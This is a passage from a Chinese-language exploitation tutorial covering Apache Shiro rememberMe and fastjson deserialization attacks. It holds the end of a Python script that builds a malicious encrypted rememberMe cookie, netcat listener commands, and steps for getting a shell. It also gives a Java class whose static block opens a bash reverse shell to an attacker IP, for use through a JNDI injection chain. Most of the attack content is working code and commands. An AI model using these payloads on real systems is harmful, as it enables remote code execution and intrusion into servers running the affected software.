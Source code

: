  ```python
      encryptor = AES.new(key, AES.MODE_CBC, iv)
      file_body = pad(popen.stdout.read())
      base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
      return base64_ciphertext
  
  if __name__ == '__main__':
      payload = encode_rememberme(sys.argv[1])
      print ("rememberMe={0}".format(payload.decode()))
  ```

  执行上述代码：`python shiro.py 192.168.241.129:6666`，得到payload，即恶意的rememberMe。

  ![image-20220813140942501](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220813140942501.png)

- **开启nc监听**

  ```
  nc -lnvp 6767
  ```

- **抓包，插入恶意rememberMe**

  抓包，在cookie中将上面恶意构造的rememberMe发送出去：

  ![image-20220813141259824](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220813141259824.png)

- **成功getshell**

  ![image-20220813141345531](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220813141345531.png)

### fastjson反序列化漏洞

#### 原理

fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。

在Java 8u102环境下，没有com.sun.jndi.rmi.object.trustURLCodebase的限制，可以使用com.sun.rowset.JdbcRowSetImpl的利用链，借助JNDI注入来执行命令。

#### 用到的工具

预先安装maven并配置环境变量，下载marshalsec，进入marshalsec 目录，使用mvn clean package -DskipTests命令编译出marshalsec的jar包

#### 漏洞利用

- **生成payload**

  ```java
  // javac TouchFile.java
  import java.lang.Runtime;
  import java.lang.Process;
  
  public class TouchFile {
  	static {
  		try {
  			Runtime rt = Runtime.getRuntime();
  			String[] commands = {"/bin/bash","-c","bash -i >& /dev/tcp/192.168.2.101/6767 0>&1"};
  			Process pc = rt.exec(commands);
  			pc.waitFor();
  		}
          catch (Exception e) {
  		// do nothing
  		}
  	}
  }
  ```
